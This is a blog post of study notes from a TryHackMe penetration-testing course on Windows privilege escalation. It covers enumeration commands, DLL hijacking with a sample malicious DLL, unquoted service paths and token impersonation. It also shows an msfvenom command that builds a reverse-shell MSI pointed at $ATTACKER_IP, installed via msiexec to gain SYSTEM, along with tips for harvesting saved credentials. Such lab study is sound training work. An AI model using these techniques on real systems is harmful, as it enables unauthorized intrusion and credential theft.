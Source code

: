 ```yaml
---
title: 'TryHackMe: Jr. Penetration Tester'
date: 2022-04-21 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-04-21-tryhackme-jr-penetration-tester.html
author: 100007
---
```


# Windows PrivEsc

## Introduction

Common Windows user levels:

- Local Admin
- Local User
- Guest User
- Domain User
- Domain Admin

Note that non-admin domain users may still be local admins.

Note that most Windows antivirus products will not allow enumeration scripts to be run.

Here’s a useful checklist:

- [Windows - Privilege Escalation (PayloadsAllTheThings)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

## Information Gathering

- `whoami /priv` - current user + privileges
- `net user` - list all (local) users
- `net user $USERNAME` - get details for user `$USERNAME`
- `net localgroup` - list all (local) groups
- `net localgroup $GROUP` – list user in group `$GROUP`
- `query session` - list other users who are currently logged in
- `systeminfo` - return system info
- `hostname` - return system hostname
- `wmic qfe get Caption,Description,HotFixID,InstalledOn` - list installed updates (only Windows 10 21H1 and older)
- `schtasks` - list scheduled tasks
- `driverquery` - list installed drivers
- `sc` - query (and manipulate) services (does not work in PowerShell!)

Note that the `findstr` command is the Windows equivalent of `grep` (and sometimes also `find`). Also remember that you can use pipe in Windows!

Note that Windows provides the `netstat` command, and it recognizes all of the switches we’d hope it does. Note, however, that `-o` displays the PID of the process using the connection on Windows.

Microsoft Defender uses the service name `windefend`.

- [Using “netstat”](https://cardboard-iguana.com/notes/netstat.html)

## Tools of the Trade

- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
- [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [Metasploit](https://cardboard-iguana.com/notes/metasploit.html)

Notes:

- WinPEAS is detected and quarantined by Microsoft Defender by default.
- PowerUp may require an unrestricted PowerShell session (`powershell -nop -exec bypass`), which can raise alerts.
- Windows Exploit Suggester analyzes the output of `systeminfo`, and can be run on the attacker’s machine.
- The `multi/recon/local_exploit_suggester` module works through Meterpreter to analyze a Windows system for potential vulnerabilities.

## Vulnerable Software

- `wmic product` - list all installed software (but misses 32-bit applications installed on a 64-bit OS)
- `wimc service list brief` - another way of listing services

## DLL Hijacking

Basically, this is the Windows equivalent of exploiting `LD_PRELOAD` or `LD_LIBRARY_PATH`.

Windows DLL search order if `SafeDllSearchMode` is enabled:

- The application directory
- The system directory (as returned by `GetSystemDirectory()`)
- The 16-bit (!) system directory
- The Windows directory (as returned by `GetWindowsDirectory()`)
- The current directory (!)
- The system `PATH` (!)

Windows DLL search order if `SafeDllSearchMode` is disabled:

- The application directory
- The current directory (!)
- The system directory (as returned by `GetSystemDirectory()`)
- The 16-bit (!) system directory
- The Windows directory (as returned by `GetWindowsDirectory()`)
- The system `PATH` (!)

It seems more-or-less impossible to determine what DLLs an application is searching for without having SYSTEM access already (so tools like ProcMon can be run). So, local testing!

A skeleton DLL:

```
#include <windows.h>

BOOL WINAPI DllMain
(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
	if (dwReason == DLL_PROCESS_ATTACH) {
		system("cmd.exe /C whoami > C:\Temp\dll.txt");
		ExitProcess(0);
	}
	return TRUE;
}
```

Compile with mingw (this _can_ be done on Linux!):

```
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

Note that Windows _also_ comes with `wget`!

```
# Change user foo's password to "bar" (requires admin/SYSTEM
# authority):
#
net user foo bar
#
# Note that this does *NOT* bypass any password complexity
# requirements!
```

- [Exploiting LD\_PRELOAD](https://cardboard-iguana.com/notes/exploiting-ld-preload.html)
- [Exploiting LD\_LIBRARY\_PATH](https://cardboard-iguana.com/notes/exploiting-ld-library-path.html)

## Unquoted Service Path

Formally, when Windows encounters an unquoted service path it tries _all_ possible paths, from shortest to longest. Thus `C:\Program Files\service path\service.exe` will cause Windows to look for the following executables, in order:

- `C:\Program.exe`
- `C:\Program Files\service.exe`
- `C:\Program Files\service path\service.exe`

If an executable is found on a shorter path, then the remainder of the (unquoted) path is treated as command line parameters.

Print out all services:

```
wmic service get name,displayname,pathname,startmode
```

You can inspect the service paths in this output to see if any have spaces _and_ are unquoted.

When checking the permissions of a folder, note that the Windows File Explorer isn’t good about displaying permissions for users who have _multiple_ applied ACLs. Use `icacls` or `Get-Acl $PATH | Format-List`, and be sure to keep your eyes peeled for duplicate user entries (_all_ of which will be applied!).

Find a file in Windows:

```
dir $FILE_NAME /S
```

- [How to find a file or folder in MS-DOS or Windows command line](https://www.computerhope.com/issues/ch000309.htm)

## Token Impersonation

Prior to Windows 10 1809 / Server 2019, services could be forced to authenticate to a local port controlled by a low-privilege attacker, which would then allow the attacker to proxy and capture the NTLM handshake and thus (typically) a SYSTEM token. (This vulnerability _technically_ still exists, its just that unprivileged accounts can no longer use this token; check to see if the output of `whoami /priv` contains the `SeImpersonatePrivilege` privilege to see if you’ve gotten lucky.)

Exploits in this family are typically named “X Potato” after the first exploit, “Hot Potato”.

## Quick Wins

(1) Look for defunct (but still running) scheduled tasks with running as a more highly privileged account that point to a path you can control.

(2) If `AlwaysInstallElevated` is set to 1 under both of the following keys, then MSI installers will run as SYSTEM.

```
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Generate a malicious MSI file with msfvenom:

```
msfvenom -p windows/x64/shell_reverse_tcp \
	LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT \
		-f msi -o $INSTALLER.msi
```

Then install on the target to gain SYSTEM:

```
msiexec /quiet /qn /i $INSTALLER.msi
```

(3) Check for saved passwords of othe users with `cmdkey /list`. If any exist, then they can be used in `runas` with the `/savecred` flag.

(4) Sometimes registry keys contain passwords! Apparently, you can query/search across registry keys using `reg query ...`.

(5) Windows uses a file called `unattend.xml` to store setup auto-configuration information. Check if these have been left lying around.

